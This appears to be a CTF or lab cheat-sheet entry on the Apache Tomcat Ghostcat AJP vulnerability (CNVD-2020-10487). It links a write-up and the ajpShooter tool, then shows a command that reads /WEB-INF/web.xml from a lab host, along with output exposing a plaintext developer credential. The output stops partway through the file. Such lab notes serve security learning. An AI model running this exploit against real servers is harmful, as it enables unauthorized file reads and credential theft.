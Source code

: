 ## AJP Shooter 
- [Hunting and Exploiting the Apache Ghostcat](https://apkash8.medium.com/hunting-and-exploiting-apache-ghostcat-b7446ef83e74)
- [Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)

```bash
python3 ajpShooter.py http://10.10.34.2:8080/ 8009 /WEB-INF/web.xml read

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1977-1612105570000"
[<] Last-Modified: Sun, 31 Jan 2021 15:06:10 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1977

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>VulnNet Entertainment</display-name>
  <description>
     VulnNet Dev Regulations - mandatory
 
1. Every VulnNet Entertainment dev is obligated to follow the rules described herein according to the contract you signed.
2. Every web application you develop and its source code stays here and is not subject to unauthorized self-publication.
-- Your work will be reviewed by our web experts and depending on the results and the company needs a process of implementation might start.
-- Your project scope is written in the contract.
3. Developer access is granted with the credentials provided below:
 
    webdev:Hgj3LA$02D$Fa@21
 
```
